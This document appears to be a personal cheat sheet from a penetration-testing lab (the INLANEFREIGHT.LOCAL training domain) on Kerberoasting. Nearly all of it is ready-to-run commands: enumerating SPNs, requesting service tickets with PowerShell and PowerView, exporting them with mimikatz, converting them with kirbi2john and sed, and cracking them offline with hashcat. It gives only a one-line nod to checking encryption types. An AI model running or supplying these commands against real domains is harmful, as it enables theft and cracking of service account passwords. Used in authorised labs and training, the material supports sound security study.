 

Enumerate SPN's via setspn
```cmd-session
setspn.exe -Q */*
```

Request All Tickets via setspn
```powershell-session
Add-Type -AssemblyName System.IdentityModel

setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Request TGS for User Account
```powershell-session
Add-Type -AssemblyName System.IdentityModel
```
```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

Request TGS for User Account via powershell
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


Extracting Tickets with mimikatz
```cmd-session
mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export
```
Converting mimikatz base64 blob for cracking
```shell-session
echo "<base64 blob>" |  tr -d \\n
```

Convert base64 file to kirbi file
```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

Extracting kirbi with john
```shell-session
python2.7 kirbi2john.py sqldev.kirbi
```

Convert kirbi for hashcat from john format
```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Cracking kirbi with hashcat
```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.tx
```

Request tickets with powershell
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

Extracting tickets to csv files
```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

Check for encryption type 0 = rc4 24 = aes with powerview
```powershell-session

Import-Module .\PowerView.ps1

Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

Path to supported encryption types
```Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options```

Get ticket with powerview
```Import-Module .\PowerView.ps1```
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
